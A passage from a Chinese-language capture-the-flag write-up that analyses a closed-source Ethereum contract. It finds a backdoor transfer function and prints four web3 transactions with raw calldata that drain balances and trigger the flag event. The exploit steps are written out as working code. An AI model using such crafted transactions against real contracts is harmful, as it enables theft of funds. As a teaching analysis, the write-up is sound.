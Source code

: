如果 `msg.sender` 是 0xeBEcEa6d769B79CF6379D6420832923F795892da，那么相应的 arg3 则为 0xeBEcEa6d769B79CF6379D6420832923F795892da + 0x32c3edb = 0xebecea6d769b79cf6379d6420832923f7c84d1b5。

再看其他参数，很明显 arg2 是需要从 balances 中转走的金额，arg0 和 arg1 分别是转出的地址和转入的地址。很明显该函数是个可以清空 balances 的后门函数，但此时尚不能直接调用该函数，因为不满足第一个条件，为此我们需要继续定位之前的两个关键交易：

[![](https://p1.ssl.qhimg.com/t0188eaf52f4c128036.png)](https://p1.ssl.qhimg.com/t0188eaf52f4c128036.png)

[![](https://p5.ssl.qhimg.com/t01b90025df23db8180.png)](https://p5.ssl.qhimg.com/t01b90025df23db8180.png)

根据这三个交易，我们可以推断出攻击流程如下：
1. 调用 takeMoney 函数，满足 `takeRecord[msg.sender] == true` 要求，但会使得 balances 不为 0
1. 调用 approve 函数，使得用户可以向其他账户转账
1. 调用后门函数，将用户的余额全部转给地址为 0 的账户，满足 `balances[msg.sender] == 0` 的要求
因此我们模仿构造以下四个交易：

```
// takeMoney, 满足 takeRecord[msg.sender] == true
code = 'fcae8c06'
web3.eth.sendTransaction(`{`from: '0xeBEcEa6d769B79CF6379D6420832923F795892da', to: '0x8D73365BB00a9a1A06100fDFDc22fd8a61CfFF93', data: code`}`, console.log)
// approve，满足下一个交易的要求
code = '095ea7b3000000000000000000000000ebecea6d769b79cf6379d6420832923f795892da00000000000000000000000000000000000000000000000000000000000003e8'
web3.eth.sendTransaction(`{`from: '0xeBEcEa6d769B79CF6379D6420832923F795892da', to: '0x8D73365BB00a9a1A06100fDFDc22fd8a61CfFF93', data: code`}`, console.log)
// 转账，清空 balances
code = '5ad0ae39000000000000000000000000ebecea6d769b79cf6379d6420832923f795892da000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000003e8000000000000000000000000ebecea6d769b79cf6379d6420832923f7c84d1b5'
web3.eth.sendTransaction(`{`from: '0xeBEcEa6d769B79CF6379D6420832923F795892da', to: '0x8D73365BB00a9a1A06100fDFDc22fd8a61CfFF93', data: code`}`, console.log)
// CaptureTheFlag
code = '95907291000000000000000000000000000000000000000000000000000000000000002000000000000000000000000000000000000000000000000000000000000000144d5445304e5445305147396a4c6d4e7662513d3d000000000000000000000000'
web3.eth.sendTransaction(`{`from: '0xeBEcEa6d769B79CF6379D6420832923F795892da', to: '0x8D73365BB00a9a1A06100fDFDc22fd8a61CfFF93', data: code`}`, console.log)
```

最终可以在 Etherscan 上看到成功触发了 FLAG 事件：

[![](https://p2.ssl.qhimg.com/t0171a96bb83a5f526b.png)](https://p2.ssl.qhimg.com/t0171a96bb83a5f526b.png)



## 总结

同开源合约相比，闭源合约由于其不公开源代码的原因，在分析上难度更大，但并非不能分析。简单总结闭源合约交易的分析流程，可以分为三个步骤：
1. 利用反编译工具，将闭源合约的字节码转换为可读的源码
1. 解析交易数据，提取出函数选择器和相应参数
1. 利用函数选择器找到对应函数代码，进而理解攻击的原理


## 参考链接
- [应用二进制接口Application Binary Interface(ABI) 说明](https://solidity-cn.readthedocs.io/zh/develop/abi-spec.html)